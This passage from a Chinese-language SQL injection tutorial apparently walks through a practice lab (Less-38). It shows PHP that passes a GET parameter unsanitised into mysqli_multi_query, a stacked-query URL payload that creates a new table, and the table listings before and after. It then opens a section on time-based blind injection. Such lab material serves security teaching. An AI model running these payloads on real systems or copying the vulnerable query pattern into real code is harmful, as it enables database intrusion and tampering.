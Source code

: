 ```php
<?php
    $id=$_GET['id'];
	......
	$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
	/* execute multi query */
	if (mysqli_multi_query($con1, $sql))
	{
       ......
    }
    ......
?>
```

此处正是使用 mysqli_multi_query 函数实现的多语句查询。我们可以尝试插入另一条语句来创建表：

```sql
http://localhost/Less-38?id=1';create table sqli like users;
```

执行前的表：

```java
mysql> show tables;
+--------------------+
| Tables_in_security |
+--------------------+
| emails             |
| referers           |
| uagents            |
| users              |
+--------------------+
4 rows in set (0.00 sec)
```

执行后，成功创建 sqli 表，说明第二条语句执行成功：

```java
mysql> show tables;
+--------------------+
| Tables_in_security |
+--------------------+
| emails             |
| referers           |
| sqli               |
| uagents            |
| users              |
+--------------------+
5 rows in set (0.00 sec)
```

#### 基于时间延迟盲注

基于时间延迟盲注是通过时间延迟来判断是否存在 SQL 注入的常用方法，是用于无任何错误回显情况下的盲注。对于正确语句和错误语句都返回相同内容时也可以使用，所以它的适用范围相对广一些。
> 注意：在实际测试过程中，特别是线上业务测试，要避免使用过长时间的延时，否则会影响业务的正常运行。换句话说，能够延时注入就基本代表可以去网站进行拒绝服务攻击。
